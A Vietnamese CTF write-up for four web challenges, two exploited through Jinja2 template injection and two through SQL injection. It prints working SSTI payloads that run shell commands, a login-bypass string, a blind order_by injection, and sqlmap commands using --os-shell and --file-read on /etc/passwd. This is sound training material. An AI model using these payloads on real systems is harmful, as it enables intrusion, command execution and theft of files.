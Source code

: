 ```yaml
---
title: "Write up Cyradar CTF TTS/CTV [WEB]"
date: "2025-01-05"
excerpt: "Write up Cyradar CTF TTS/CTV [WEB]"
featured: "/images/cyradar_logo.svg"
---
```


# Bài 1: SSTI

Khi mở web lên có giao diện như sau:

![image](https://hackmd.io/_uploads/S1FPYZO8Je.png)

=> Khả năng có 1 query string là `name`

Cho `name` có giá trị là `{{7*7}}` để test SSTI

=> Xuất hiện 49 => có khả năng bị SSTI

![image](https://hackmd.io/_uploads/ryg0FWOI1g.png)

Test tiếp `name` = `${{<%[%'"}}%\.` để biết xem phía server đang dùng template engine nào

![image](https://hackmd.io/_uploads/B1i3qW_Ikg.png)

=> Jinja2

Sử dụng payload: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}
`

Phát hiện có flag.txt

![image](https://hackmd.io/_uploads/B1iApWdLyg.png)

Đọc flag.txt => `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}`

![image](https://hackmd.io/_uploads/BJeI0bO8kg.png)

Flag: `Hello CyWeb{w3b_3asy_sst1}!`


# Bài 2: SQL Injection

Bài 2 có giao diện như sau:

![image](https://hackmd.io/_uploads/B1HMyfdU1l.png)

Đọc source code => SQL Injection

Khi thử nhập username là `admin' or 1 = 1 -- thì bị thật`

![image](https://hackmd.io/_uploads/rJuvJzOIJg.png)

Tiếp theo sử dụng tool SQLMap để đẩy nhanh tiến độ dump db

Đầu tiên sử dụng Burp Suite vào url bài web, đăng nhập thử, sau đó lấy request đưa vào file `request.txt`

Sau đó sử dụng SQLMap như sau

![image](https://hackmd.io/_uploads/BkUhJGd8kg.png)

![image](https://hackmd.io/_uploads/H1901G_U1e.png)

Thấy được 3 database sau:

![image](https://hackmd.io/_uploads/HkhkeMOUJg.png)

Thử dump database public (`-dbs`)

![image](https://hackmd.io/_uploads/SyNZxzOLkg.png)

Khi dump table users thì không thấy flag (`-D public -T users --dump`)

![image](https://hackmd.io/_uploads/ryHEgzu81x.png)

Xem lại đề bài có vẻ gợi ý RCE

![image](https://hackmd.io/_uploads/HJNYef_I1e.png)

=> Thêm option `--os-shell` để RCE

![image](https://hackmd.io/_uploads/BJC9gfOUye.png)

Sau đó liệt kê thư mục gốc:

![image](https://hackmd.io/_uploads/rk-nlzdUyl.png)

Đọc file `flag.txt`

![image](https://hackmd.io/_uploads/Byr6lfOLkx.png)

Flag: `CyWeb{ThiS_i5_m3d!um5q1!r(3}`

# Bài 3: SSTI

![image](https://hackmd.io/_uploads/HyF5bfOIJl.png)

Server đang reflect lại địa chỉ IP của client.

Thử thêm `X-Forwarded-For` vào gói tin:

![image](https://hackmd.io/_uploads/Byx-GzOI1x.png)

=> Thử địa chỉ localhost nhưng không thấy gì

Thử `{{7*7}}` ra 49

![image](https://hackmd.io/_uploads/SkwVMzu8ke.png)

Tiếp tục 1 số bước như bài 1 => Jinja2 

Và chèn payload sau: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls /').read() }}`

![image](https://hackmd.io/_uploads/ByNifMu8kg.png)

Đọc flag.txt: `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat /flag.txt').read() }}`

![image](https://hackmd.io/_uploads/S1xpfMOLJx.png)

Flag: `CyWeb{m3d!umsst!}`

# Bài 4: SQL Injection

![image](https://hackmd.io/_uploads/S1j8Xf_8kl.png)

Có vẻ giống bài 2 nhưng lần này với query string `order_by`

Sử dụng sqlmap check 1 số database

![image](https://hackmd.io/_uploads/B1QlVGOUJe.png)

=> xem xét db `chh`

**Note**: 1 cách test bằng cơm nếu không dùng sqlmap: `?order_by=(SELECT (CASE WHEN ((SELECT substring(table_name,1,1) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)='a') THEN 'price' ELSE (SELECT 7066 UNION SELECT 7211) END))
`

Phát hiện table flag

![image](https://hackmd.io/_uploads/HkiWVM_Lyg.png)

![image](https://hackmd.io/_uploads/ryPMEM_81l.png)

Tuy nhiên thì đây là flag fake
Sau đó có thử option `--os-shell` tuy nhiên gặp lỗi (khả năng không upload được file) => Không thể RCE được
Sau khi tìm hiểu thì có phát hiện ra sqlmap có thể đọc được file với `--file-read`

`sqlmap -r request.txt --file-read=/etc/passwd`

Đầu tiên đọc file `/etc/passwd` xem có flag không

![image](https://hackmd.io/_uploads/rkkZHf_L1x.png)

Em nghĩ lại thì flag các bài trước đều được đặt ở /flag.txt 

![image](https://hackmd.io/_uploads/rJVSHf_L1l.png)
![image](https://hackmd.io/_uploads/r1oHHG_UJg.png)

=> Flag: `CyWeb{w3b_h@rd_sql1_0rderby}`